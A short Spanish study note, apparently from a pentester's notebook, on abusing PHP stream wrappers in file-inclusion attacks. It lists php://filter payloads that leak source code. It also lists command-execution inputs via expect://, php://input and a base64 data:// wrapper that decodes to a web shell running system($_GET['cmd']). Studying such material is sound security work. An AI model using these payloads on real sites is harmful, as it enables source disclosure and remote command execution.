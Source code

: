 ----
- Tags: #basico #teoria #practica
----

# Wrappers 

- ## Representar recursos en base64 

Esto sirve para apuntar a recursos y mostrarlos en base64, sobre todo para archivos .php los cuales se interpretan por el navegador. 

`php://filter/convert.base64-encode/recourse=index.php`

De esta manera podriamos copiar la cadena base64, guardarlo en un archivo y luego con `cat file | base64 -d | sponge file` lo decodeamos y volvemos a guardar en el mismo archivo.

Tambien existen otros como `php://filter/read=string.rot13/resource=index.php` y luego con comandos de bash comp `cat {data} | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'` podriamos obtener el resultado final.

Tambien podria realizarse juganco con **iconv** `php://filter/convert.iconv.utf-8.utf-16/resource=index.php`. 

---

- ## Intentar ejecutar comandos a nivel de sistema 

Esto se podria intentar con `expect://whoami`. 

Otra manera es con `php://input`, cambiando el metodo GET a *POST* para mandar en el body un script en php, com por ejemplo: `<?php system("whoami"); >?`

Otra es con `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==`, siendo `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==`  una cadena en base64 de `<?php system($_GET['cmd']); ?>` 

Y por ultimo esto se podria hacer con [php filter chain](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) el cual es una técnia medianamente nueva, la cual consiste en abusar de un funcionamiento raro de php el cual jugando con encodings y decodings podemos injectar caracteres, pudiendo asi yendo caracter a caracter, escribir codigo php para ejecutar lo que quisieramos. 

